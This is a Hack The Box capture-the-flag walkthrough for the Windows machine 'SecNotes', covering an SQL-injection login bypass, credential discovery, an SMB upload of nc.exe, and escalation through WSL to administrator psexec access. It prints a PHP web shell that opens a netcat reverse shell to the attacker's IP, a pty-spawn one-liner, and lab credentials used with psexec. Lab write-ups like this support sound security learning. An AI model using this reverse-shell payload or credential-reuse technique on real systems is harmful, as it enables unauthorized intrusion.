 Hack the Box "SecNotes"

#windows
# Initial Nmap Scan

![Pasted image 20230220120110](https://user-images.githubusercontent.com/71300144/220217556-37f2706b-3fe9-400e-9859-81ff99881c51.png)

# SMB

- Can not connect to SMB via anonymous

# Website on 80

![Pasted image 20230220120217](https://user-images.githubusercontent.com/71300144/220217591-bb30c1c7-6215-42d3-a59d-e9fc2ebc7a60.png)


- Login page present but can not find and SQL injection. Ran sqlmap
- did this by intercepting the POST request in BURP and saving it in a file called request.txt and running the following command `sqlmap -r request.txt`

![Pasted image 20230220120727](https://user-images.githubusercontent.com/71300144/220217672-dfccf0ad-cb74-4f89-8039-575381e39070.png)

- Lets sign up and see if there is sql injection on the sign up page
- sqlmap did not find any injectable values but it looks like it is vulnerable to cross site scripting.


- So if we use a sql injectectable value as the username and password we might be able to log in as an admin to the site

![Pasted image 20230220121435](https://user-images.githubusercontent.com/71300144/220217761-556b3255-b300-45d7-8479-e419f9aae9ef.png)

- Log in using these credentials

![Pasted image 20230220121735](https://user-images.githubusercontent.com/71300144/220217796-29d55191-c29c-47a0-9521-68a6df084505.png)

- Here you can see access to all notes including some credentials that look like it is for an smbshare
	- \\secnotes.htb\new-site
			tyler / 92g!mA8BGjOirkL%OG*&
- Now we are able to log into the smbshare

![Pasted image 20230220121839](https://user-images.githubusercontent.com/71300144/220217863-7029a64e-d14b-42d4-aadb-e2b90f04fe19.png)

- We can also see that this share is hosting an iis server which we saw in our initial nmap scan on port 8808

![Pasted image 20230220122318](https://user-images.githubusercontent.com/71300144/220217972-dc84d83c-2210-4a9a-a8fa-d02e034995fa.png)

- We can see that this is exactly the case
- Lets try a psexec for a quick win since we have some credentials
	- `python2 /usr/local/bin/psexec.py tyler:'92g!mA8BGjOirkL%OG*&'@10.10.10.97`
	- this does not work, so we have to try another way lets have another look at the site and see what kind of technology is hosted

![Pasted image 20230220123257](https://user-images.githubusercontent.com/71300144/220218011-13a080f7-c28a-4a26-81e9-3084f2790388.png)

- If we look a Wappalyze we can also see that th website is using PHP, we can take advantage of this since php is server side executed.

![Pasted image 20230220122720](https://user-images.githubusercontent.com/71300144/220218047-a19ff526-7eed-43ab-8cd6-452602917af6.png)

- lets try to upload nc.exe and a php reverse shell command to execute via server side after we access it on the website
	- NOTE: Ther is sometype of antivirus or defender firewall that is removing the files put into the smbshare every minute or two, so we have to act fast.
- Locate nc.exe and copy to current directory where you are logged into smb at 

![Pasted image 20230220123646](https://user-images.githubusercontent.com/71300144/220219818-969ff4df-8e1d-49dd-9603-eb88a4d34262.png)

- Create a php command that connects back to our machine 

`<?php system('nc.exe -e cmd.exe 10.10.14.8 9999') ?>`

This PHP command is using the `system()` function to execute a system command.

The command being executed is `nc.exe -e cmd.exe 10.10.14.8 9999`, which is running a program called `nc.exe` and passing it several arguments:

-   `-e` specifies that the following command should be executed after a connection is established.
-   `cmd.exe` is the command that will be executed after the connection is established. In this case, it is the Windows command prompt, which provides an interface for running Windows commands.
-   `10.10.14.8` is the IP address of the remote host that the connection will be made to.
-   `9999` is the port number to connect to on the remote host.

In summary, this command is using `nc.exe` to create a reverse shell to the remote host specified by IP address `10.10.14.8` on port `9999`.

![Pasted image 20230220124036](https://user-images.githubusercontent.com/71300144/220220017-1dac6271-5014-4e1a-9a85-a502f1b8fbb6.png)

- Now call the php-reverse.php file 

![Pasted image 20230220124145](https://user-images.githubusercontent.com/71300144/220220152-cbbad278-d88e-40ef-884e-70c3b01f5882.png)

- You should now have a shell

![Pasted image 20230220124211](https://user-images.githubusercontent.com/71300144/220220212-9eda6908-80fd-42f1-b021-4587dff82339.png)

- It was hinted to look for WSL (Windows Subsystem for Linux) the following commands were ran 
![[Pasted image 20230220124519.png]]

- If we take the file path found and ask whoami it returns root on the wsl.exe

![Pasted image 20230220124519](https://user-images.githubusercontent.com/71300144/220220315-3c9bfd86-ae50-48ad-ba31-f4722b366580.png)

- Runnign bash.exe 
- basic commands 
	- whoami
	- hostname
	- uname -a 
	- convert to a tty shell
		- `python -c "import pty;pty.spawn('/bin/bash')"`

![Pasted image 20230220124850](https://user-images.githubusercontent.com/71300144/220220358-48fdaaf2-3fc5-477e-a01e-96edffe8d9a9.png)

- Looking at history to see if there is anything interesting and we see some creds for admin accessing teh smbshare

![Pasted image 20230220125310](https://user-images.githubusercontent.com/71300144/220220508-e910f4dd-58ff-4af7-880b-c92368b084ef.png)

- Open a new tab and replace local IP for target IP and try to connect to the SMB share as admin. You are able to access it as admin

![Pasted image 20230220125423](https://user-images.githubusercontent.com/71300144/220220638-d0552c4f-224a-46ef-8d15-a1322690a3b6.png)

- THis is technically not a real shell so lets take the credentials we found and try the psexec command again, maybe the administrator re-used the password for other things

![Pasted image 20230220130226](https://user-images.githubusercontent.com/71300144/220220761-24137d93-8a8d-4dc0-b66a-8ba94f15d078.png)

`python2 /usr/local/bin/psexec.py administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97`

